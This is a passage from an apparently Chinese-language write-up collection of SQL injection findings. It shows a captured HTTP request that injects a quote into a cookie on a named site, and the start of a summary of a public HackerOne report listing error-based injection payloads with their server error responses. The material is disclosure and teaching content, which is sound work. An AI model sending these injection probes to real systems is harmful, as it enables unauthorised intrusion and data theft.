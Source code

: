 ```
http复制编辑GET /index.php/search/default?t=1&x=0&y=0 HTTP/1.1
Host: mtn.com.ye
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=86ce3d04baa357ffcacf5d013679b696; lang=en'; _ga=GA1.3.1859249834.1576704214; _gid=GA1.3.1031541111.1576704214; _gat=1; _gat_UA-44336198-10=1
Upgrade-Insecure-Requests: 1
```

验证行为：

- **注入 `'`（单引号）后，页面返回 SQL 错误，显示语法异常。**
- **注入 `''`（闭合引号）后，页面恢复正常响应。**

说明服务端在处理 Cookie 中的 `lang` 参数时，存在 SQL 拼接风险。

> 目前仅做了探测性测试，**未尝试进一步数据读取或利用**，请求许可后可进行下一步漏洞确认。

### 17. GET | 报错注入 | SQL Server

[U.S. Dept Of Defense | Report #227102 - Two Error-Based SQLi in courses.aspx on ██████████ | HackerOne](https://hackerone.com/reports/227102)

#### **漏洞验证与攻击路径**:

1. **触发错误泄露信息**

   - **Payload 1（换行符注入）**:

     ```
     GET /onlinecatalog/courses.aspx?crs_id=%0a HTTP/1.1
     ```

     **响应结果**：

     ```
     Error converting data type varchar to numeric.  
     Source Error: Line 174 - rscrs.open(sqlcrs, connectionString)
     ```

   - **Payload 2（无效数值注入）**:

     ```
     GET /onlinecatalog/courses.aspx?crs_id=0 HTTP/1.1
     ```

     **响应结果**：

     ```
     Either BOF or EOF is True...  
     Source Error: Line 177 - crs = rscrs("crs_header").value
     ```

2. **攻击扩展风险**
